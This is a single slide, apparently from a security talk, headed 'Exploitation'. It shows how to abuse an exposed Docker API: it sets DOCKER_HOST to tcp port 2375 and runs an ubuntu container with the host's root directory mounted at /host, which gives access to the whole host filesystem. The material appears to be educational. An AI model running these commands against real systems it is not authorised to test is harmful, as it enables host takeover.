

# Exploitation
Default the API for all connections
export DOCKER_HOST=“tcp://127.0.0.1:2375”
Create an image, mount host’s root directory
docker run -it -v /:/host ubuntu:latest bash
10